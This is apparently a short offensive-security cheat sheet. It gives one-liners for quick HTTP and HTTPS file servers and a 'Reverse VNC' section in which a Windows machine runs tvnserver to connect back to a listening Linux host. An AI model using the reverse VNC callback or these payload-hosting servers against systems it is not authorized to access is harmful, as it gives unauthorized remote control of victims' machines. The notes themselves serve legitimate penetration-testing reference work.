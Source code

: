 # Simple HTTPS Python 3.X server
```python
# sudo python3
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl, os
os.system("openssl req -nodes -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -subj '/CN=mylocalhost'")
port = 443
httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, keyfile='/tmp/key.pem', certfile="/tmp/cert.pem", server_side=True)
print(f"Server running on https://0.0.0.0:{port}")
httpd.serve_forever()
```

# Simple HTTP Python 3.X server
```sh
python3 -m http.server 8000
```

# Simple HTTP Python 2.X server
```sh
python -m SimpleHTTPServer 8000
```

# Simple HTTP npm server via npx
```sh
npx http-server -p 8000
```

# [Reverse VNC](https://blog.kennyjansson.com/2018/03/04/reverse-vnc-shell/)
## Server - Linux
```sh
vncviewer -listen 0
```

## Client - Windows
```batchfile
:: https://www.tightvnc.com/download.php
:: the file can be unpacked from MSI using 7z
tvnserver.exe
:: cmd /c tvnserver
tvnserver.exe -controlapp -connect <linux_ip>:5500
```
